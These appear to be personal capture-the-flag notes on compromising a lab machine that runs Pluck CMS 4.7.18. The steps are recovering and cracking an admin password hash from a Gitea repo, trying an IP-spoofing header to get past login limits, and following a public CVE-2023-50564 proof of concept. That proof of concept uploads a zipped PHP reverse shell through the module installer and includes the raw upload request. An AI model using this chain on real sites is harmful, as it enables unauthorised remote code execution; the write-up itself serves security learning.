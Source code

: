 Port 80

![[Pasted image 20240918065427.png]]

![[Pasted image 20240918070211.png]]

![[Pasted image 20240918070330.png]]

pluck 4.7.18

`You have exceeded the number of login attempts. Please wait 5 minutes before logging in again.`

Port 3000

![[Pasted image 20240918065949.png]]

I make a test user account and take a look at the file poasted by admin on the greenhorn github page

![[Pasted image 20240918071124.png]]

This tells me the amount of tries i have so maybe i can modify the request with an `X-Forwarded_For` header to spoof my ip. Doesn't seem to work.

![[Pasted image 20240918072151.png]]

![[Pasted image 20240918072907.png]]

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![[Pasted image 20240918073200.png]]

![[Pasted image 20240918073418.png]]

iloveyou1

---

This logs me into pluck.

https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC

1. Clone this repository:
```php
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git
cd CVE-2023-50564_Pluck-v4.7.18_PoC
```

2. Replace with the target domain name or IP address in the PoC script.
3. Create a `payload.zip` file containing `shell.php`. I recommand [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)PHP reverse shell and replace `<your_ip>` and `<port>` fields with your IP and listening port.
4. Run the PoC script:

```php
python exploit.py
```

5. You will be prompted to enter the path to the ZIP file:

```php
ZIP file path: ./path/to/payload.zip
```

Output example:

- If the login and upload are successful:
```php
Login account
ZIP file download.
<output of the executed shell.php>
```

- If a login error occurs:

```php
Login problem. response code: <code>
```

- If an upload error occurs:

```php
ZIP file download error. Response code: <code>
```

_Note_
Ensure that the `shell.php` file contains the correct reverse shell and your listener is waiting for the connection on the specified port.

---

Zip

```php
zip revzip revshell.php 
```

Install modules

Options -> manage modules -> install a module

![[Pasted image 20240918083531.png]]






---

Exploit crafting details:

`POST /admin.php?action=installmodule`

`Content-Disposition: form-data; name="sendfile"; filename="payload.zip"`
`Content-Type: application/zip`

`Cookie: PHPSESSID=ns152q98g9afg7otftf1nn5rvk; i_like_gitea=b865f5a34bba6134; lang=en-US; _csrf=JMaz581fnUIxGHlpppXcArSmTMQ6MTcyNjY0MDM4Nzk3MDc5MDk2Mw`

`http://<url>/data/modules/payload/shell.php`